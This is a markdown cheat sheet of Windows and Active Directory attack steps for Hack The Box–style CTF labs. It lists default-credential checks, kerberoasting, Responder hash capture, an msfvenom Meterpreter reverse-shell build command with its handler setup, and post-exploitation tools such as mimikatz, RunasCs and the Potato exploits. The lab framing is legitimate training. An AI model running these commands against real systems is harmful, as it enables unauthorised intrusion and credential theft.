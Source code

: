 ### What do I try?
- Always nmap, you want to know all ports to see what services you can be facing soon
- `crackmapexec` is a great tool for messing with various windows protocols like SMB
    * try default creds such as: `guest:[nopass]`, `anonymous:[nopass]`, `[nopass]:[nopass]`
- SYNC YOUR CLOCK, services such as Kerberos discriminates time, if your clock isnt synced it refuses to do business
    * I have a script that [helps sync clocks](https://github.com/EndermanSUPREME/myKali_Scripts/blob/main/clocksync.sh)
- Try credentials everywhere if you have them!
- Just like Linux boxes ENUMERATE and analyse websites and their components
- Attempt kerberoasting, maybe some accounts don't use pre-auth so you can get a hash or two
- Use responder to capture NTLMv2 hashes to crack into working passwords
    * SMB calls look like `\\IP\fakeShare`
    * responder needs sudo privs: `sudo responder -I tun0`
    * HTB uses tun0 as the interface we communicate through
- When getting a shell using the normal `nc` listener is cool, but once you go `Meterpreter` you don't wanna go back!
    * `msfvenom` is used to build various shells : `msfvenom -p windows/x64/meterpreter/reverse_tcp -LHOST [IP] -LPORT [PORT] -f exe -o meter.exe`
    * msfvenom can also produce byte code as well, but I don't suggest to use it unless you know what you're doing
    * Meterpreter listeners run off wonder `msfconsole`
        * use exploit/multi/handler is the shell handle module
        * when using that module ensure you set these params: { LHOST, LPORT, PAYLOAD : (must match the options set in msfvenom) }
- Kali is super cool with the `Impacket-Scripts` there are a bunch of these designed to help exploit Windows Protocols
- With credentials you can possibly shell inside the system, try running `evil-winrm`
- Sometimes in CTFs you don't encounter it much, watch for `LDAP Injections` they can help get into logins or dump creds
- Add any probable subdomain you find, all info you can gather is a big help!

### SMB looks interesting?:
- Use `crackmapexec` to help interact using credentials
- Use Impacket to possibly exploit/enumerate users

### Kerb is Roasting me!:
- TGTs can be very valuable, and the service can be intimidating, don't worry!
    * Tools such as Impacket, Rubeus, etc can help relieve the pressure!
- HackTricks has lots of information on TGTs!

### Holy Cow I got a SHELL!
- GET YOURSELF A METERPRETER SHELL (trust me, it makes life easier)
- Ensure the shell youre running is using PowerShell!
- Download tools!
    * [winpeasany.exe](https://github.com/peass-ng/PEASS-ng) this helps enumerate Windows System information!
    * [SharpHound.exe](https://github.com/BloodHoundAD/SharpHound) Windows LUVZ Active Directory, this will help<br>
    enumerate this for passing to BloodHound locally : `SharpHounds computers.json breaks bloodhound so don't import it!`
    * [runascs.exe](https://github.com/antonioCoco/RunasCs) with credentials you can easily get reverse shells from your current reverse shell!
    * [powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) this opens up many helpful cmdlets
    * [MIMIKATZ](https://github.com/ParrotSec/mimikatz) keep this under youre belt, with high enough privillieges you can<br>
    dump helpful things like NTLM hashes for evil-winrm, credentials for runascs.exe, etc
    * Maybe using [Full Powers](https://github.com/itm4n/FullPowers) will let you use cool privillieges
    * Try the [Potatoes](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) they can have magical pwning power!
- Attack Active Directory